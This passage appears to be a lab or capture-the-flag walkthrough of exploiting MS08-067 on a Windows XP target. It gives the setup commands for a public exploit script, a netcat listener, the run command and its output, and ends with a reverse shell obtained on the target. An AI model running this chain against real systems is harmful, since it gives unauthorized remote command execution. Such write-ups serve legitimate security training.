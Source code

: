 And replace the variable `shellcode` in the script by this one generated.

In order to execute this script, there is a dependency on `impacket`. Use a virtualenv in order to manage this dependency and execute the script :

```bash
virtualenv -p python2 venv
. venv/bin/activate
pip install impacket
chmod +x ./ms08_067_2018.py
```

Prepare the listener before executing :

```bash
nc -nvlp 62000
```

And execute:

```bash
IP=10.10.10.4
python ./ms08_067_2018.py ${TARGET_IP} 6 445
```

```text
#######################################################################
#   MS08-067 Exploit
#   This is a modified verion of Debasis Mohanty's code (https://www.exploit-db.com/exploits/7132/).
#   The return addresses and the ROP parts are ported from metasploit module exploit/windows/smb/ms08_067_netapi
#
#   Mod in 2018 by Andy Acer:
#   - Added support for selecting a target port at the command line.
#     It seemed that only 445 was previously supported.
#   - Changed library calls to correctly establish a NetBIOS session for SMB transport
#   - Changed shellcode handling to allow for variable length shellcode. Just cut and paste
#     into this source file.
#######################################################################

Windows XP SP3 English (NX)

[-]Initiating connection
[-]connected to ncacn_np:10.10.10.4[\pipe\browser]
Exploit finish
```

The reverse shell is activated :

```bash
nc -nvlp 62000
listening on [any] 62000 ...
connect to [10.10.14.18] from (UNKNOWN) [10.10.10.4] 1030
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>
```
